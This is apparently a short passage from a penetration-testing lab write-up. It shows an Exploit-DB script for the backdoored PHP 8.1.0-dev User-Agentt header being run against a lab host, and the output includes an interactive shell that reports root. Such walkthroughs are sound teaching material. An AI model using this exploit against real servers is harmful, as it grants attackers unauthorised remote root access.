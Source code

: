 `nvim /usr/share/exploits/exploit-db/exploitdb/exploits/php/webapps/49933.py`:
```
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header
```

`sudo python3 /usr/share/exploits/exploit-db/exploitdb/exploits/php/webapps/49933.py`
```
Enter the full host url:
http://10.10.1.109:80

Interactive shell is opened on http://10.10.1.109:80
Can't acces tty; job crontol turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ whoami
root
```